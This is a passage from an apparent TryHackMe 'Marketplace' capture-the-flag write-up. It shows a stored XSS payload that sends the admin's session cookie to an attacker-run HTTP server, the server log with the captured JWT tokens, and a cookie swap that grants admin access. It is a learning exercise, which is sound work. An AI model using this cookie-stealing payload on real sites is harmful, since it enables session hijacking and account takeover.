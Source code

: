 -> When reporting a listing, we receive a message from the system telling us that the admin will review the listing.
-> Using XSS, let's try to steal the token cookie

```
<script>document.write('<img src="http://10.8.35.149?c='+document.cookie+'" />');</script>
```

-> Now, if we report the listing, we should be able to steal the admins cookie

```┌[──(kali㉿kali)-[~/Downloads/THM/marketplace]
└─$ python3 -m http.server 80  
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.8.35.149 - - [23/Jun/2025 12:25:46] "GET /?c=token=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VySWQiOjQsInVzZXJuYW1lIjoidXNlcjEyMyIsImFkbWluIjpmYWxzZSwiaWF0IjoxNzUwNjY2NDg0fQ.wyb0IU2thHI2Sl77tIXqdvGoggthag9o4xIgMdEYNu8 HTTP/1.1" 200 -](<┌──(kali㉿kali)-[~/Downloads/THM/marketplace]
└─$ python3 -m http.server 80  
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.8.35.149 - - [23/Jun/2025 12:25:46] "GET /?c=token=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VySWQiOjQsInVzZXJuYW1lIjoidXNlcjEyMyIsImFkbWluIjpmYWxzZSwiaWF0IjoxNzUwNjY2NDg0fQ.wyb0IU2thHI2Sl77tIXqdvGoggthag9o4xIgMdEYNu8 HTTP/1.1" 200 -
10.10.238.163 - - [23/Jun/2025 12:27:10] "GET /?c=token=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VySWQiOjIsInVzZXJuYW1lIjoibWljaGFlbCIsImFkbWluIjp0cnVlLCJpYXQiOjE3NTA2NjcyMjl9.i4ThKVEnujt6_34qZDUVeYzj4rfcKs2jv7NA1Wumlao HTTP/1.1" 200 ->)
```

![](attachments/Pasted%20image%2020250623122821.png)

-> Using burpsuite, I can now replace my cookie with Michael's
-> Obtained **Flag 1**
